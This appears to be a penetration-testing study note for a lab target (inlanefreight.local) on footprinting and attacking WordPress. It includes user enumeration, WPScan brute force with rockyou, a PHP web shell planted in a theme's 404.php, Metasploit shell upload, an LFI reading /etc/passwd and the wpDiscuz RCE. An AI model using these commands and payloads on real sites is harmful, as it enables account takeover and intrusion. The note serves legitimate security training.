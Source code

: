# Discovery / Footprinting

```shell
curl -s http://blog.inlanefreight.local | grep WordPress
```
### Robots.txt
```text
User-agent: *
Disallow: /wp-admin/
Allow: /wp-admin/admin-ajax.php
Disallow: /wp-content/uploads/wpforms/

Sitemap: https://inlanefreight.local/wp-sitemap.xml
```
Look for `wp-admin` or `wp-content`
### Plugins 
* Stored in `wp-content/plugins`
* Good to enumerate vulnerable plugins
```shell
curl -s http://blog.inlanefreight.local/ | grep plugins
```
Browser to Plugin name
```HTTP
http://blog.inlanefreight.local/wp-content/plugins/<plugin-name>
```
Try and identify the version
### Themes
* Stored in `cp-content/themes`
```shell
curl -s http://blog.inlanefreight.local/ | grep themes
```
### Users
* Standard Users:
	1. Administrator
	2. Editor
	3. Author
	4. Contributor
	5. Subscriber
#### Enumerate Users
* Valid Usernames:
```txt
Error the password you entered for the username <user> is incorrect
```
* Invalid Usernames:
```txt
The Username <user> is not registered on this site. If you are unsure of your username, try your email address instead
```
## WPScan
### External Sources
[Create](https://wpscan.com/) an account and use the API token. 

```shell
sudo wpscan --url http://blog.inlanefreight.local --enumerate --api-token dEOFB<SNIP>
```

### Normal Scan 
```shell
sudo wpscan --url http://blog.inlanefreight.local --enumerate
```
# Attacking WordPress
## Login Bruteforce
* 2 Types of brute force. [`xmlrpcs`](https://kinsta.com/blog/xmlrpc-php/) and `wp-login`. 
	1. `wp-login` tries against the login page
	2. `xmlrpc` uses wordpress API through `/xmlrpc.php`. This is faster and prefered
```shell
sudo wpscan --password-attack xmlrpc -t 20 -U john -P /usr/share/wordlists/rockyou.txt --url http://blog.inlanefreight.local
```
* `--password-attack` sued to supply the type of attack 
* `-U` Takes a list of users or file
* `-P` Password or file
* `-t` threads
## Code Execution
* If you have administrative access to WordPress, you can modify the PHP source code to execute system commands. 
* Edit an uncommon page such as `404.php`
Do this in the theme editor
```php
system($_GET[0]);
```

```shell
curl http://blog.inlanefreight.local/wp-content/themes/twentynineteen/404.php?0=id
```

### Metasploit
```shell
use exploit/unix/webapp/wp_admin_shell_upload 
```
* Need to provide a username and password
* Needs a PHP payload
## Known Vulnerabilities 
* Most vulnerabilities are found in plugins. 
```
Note: We can use the [waybackurls](https://github.com/tomnomnom/waybackurls) tool to look for older versions of a target site using the Wayback Machine. Sometimes we may find a previous version of a WordPress site using a plugin that has a known vulnerability. If the plugin is no longer in use but the developers did not remove it properly, we may still be able to access the directory it is stored in and exploit a flaw.
```
### Example vulnerable plugins
#### Mail-Masta 
* No longer supported but has had a SQL injection and LFI vulnerability since 2016.
```shell
curl -s http://blog.inlanefreight.local/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
```
#### wpDiscuz
Version 7.0.4 had a REC [vulnerability](https://www.exploit-db.com/exploits/49967)
Exploit:
```shell
 python3 wp_discuz.py -u http://blog.inlanefreight.local -p /?p=1
```
Manual:
```shell
 curl -s http://blog.inlanefreight.local/wp-content/uploads/2021/08/uthsdkbywoxeebg-1629904090.8191.php?cmd=id
```
May need to clean up 
`uthsdkbywoxeebg-1629904090.8191.php`
